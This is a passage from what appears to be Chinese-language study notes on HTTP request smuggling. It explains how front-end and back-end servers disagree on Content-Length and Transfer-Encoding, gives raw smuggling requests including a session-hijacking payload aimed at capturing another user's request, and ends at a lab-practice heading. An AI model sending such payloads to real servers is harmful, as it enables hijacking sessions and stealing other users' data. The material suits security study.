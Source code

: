 ```graphql
POST / HTTP/1.1
Host: website.com
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED
0

```

**<font style="color:rgb(31, 35, 40);">前端服务器</font>**<font style="color:rgb(31, 35, 40);">,按Transfer-Encoding: chunked解析,读取</font>`<font style="color:rgb(31, 35, 40);background-color:rgba(129, 139, 152, 0.12);">8\r\nSMUGGLED\r\n0\r\n\r\n</font>`

**<font style="color:rgb(31, 35, 40);">后端服务器处理</font>**<font style="color:rgb(31, 35, 40);">：使用Content-Length: 3,只读取前3字节：</font>`<font style="color:rgb(31, 35, 40);background-color:rgba(129, 139, 152, 0.12);">8\r\n</font>`<font style="color:rgb(31, 35, 40);background-color:rgba(129, 139, 152, 0.12);">,</font><font style="color:rgb(31, 35, 40);">剩余部分</font>`<font style="color:rgb(31, 35, 40);background-color:rgba(129, 139, 152, 0.12);">SMUGGLED\r\n0\r\n\r\n</font>`<font style="color:rgb(31, 35, 40);">被当作下一个请求</font>

<font style="color:rgb(31, 35, 40);"></font>

<font style="color:rgb(31, 35, 40);"></font>

#### <font style="color:rgb(31, 35, 40);">会话劫持</font>
```graphql
POST / HTTP/1.1
Host: website.com
Content-Length: 142
Transfer-Encoding: chunked

0

POST /login HTTP/1.1
Host: website.com
Content-Length: 100

username=admin&password=secret&next_user_data=
```

<font style="color:rgb(31, 35, 40);">走私的POST请求会"搞掉"下一个正常用户请求的部分内容</font>



### 靶场学习


#### 基本的 TECL
 对应靶场，题目要求

> 这里要采用 Brup 专业一点好处理一些细节问题
>

